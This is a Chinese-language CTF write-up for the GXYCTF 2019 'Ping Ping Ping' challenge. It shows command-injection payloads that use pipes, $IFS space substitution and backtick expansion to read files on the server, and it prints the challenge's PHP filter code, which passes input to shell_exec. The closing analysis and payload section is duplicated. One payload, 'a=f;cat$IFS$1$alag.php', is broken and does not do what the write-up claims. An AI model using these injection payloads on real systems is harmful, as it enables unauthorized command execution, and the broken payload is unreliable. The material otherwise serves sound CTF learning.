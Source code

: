 ```
代替空格 < 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
```


eg:
## GXYCTF 2019]Ping Ping Ping

输入提示输入的网址之后，返回的结果是ping之后都结果

想起来之前学的管道符” | “

127.0.0.1|ls

显示：

```
flag.php
index.php
```

  

  

输入：  
127.0.0.1|cat flag.php

显示：

fxck your space!

过滤了空格

```
代替空格
< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
```

发现过滤了：

```
> <，（），flag
```

  

先看index.php

输入：127.0.0.1|cat$IFS$9index.php

显示：

```
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
			print_r($match);
			print($ip);
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			die("fxck your symbol!");
		}
		else if(preg_match("/ /", $ip)){
			die("fxck your space!");
		}
		else if(preg_match("/bash/", $ip)){
			die("fxck your bash!");
		}
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
			die("fxck your flag!");
		}
		$a = shell_exec("ping -c 4 ".$ip);
		echo "
		
";
		print_r($a);
	}

	?>
```

  代码分析：过滤了一堆符号

```
flag的贪婪匹配，匹配一个字符串中，是否按顺序出现过flag四个字母
if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
```

尝试：

```
?ip=127.0.0.1|cat$IFS$9`ls`
或
?ip=127.0.0.1;a=f;cat$IFS$1$alag.php 
查看源码找到flag
```
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

  

代码分析：过滤了一堆符号

```
flag的贪婪匹配，匹配一个字符串中，是否按顺序出现过flag四个字母
if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
```

  
  

  

尝试：

```
?ip=127.0.0.1|cat$IFS$9`ls`
或
?ip=127.0.0.1;a=f;cat$IFS$1$alag.php 
查看源码找到flag
```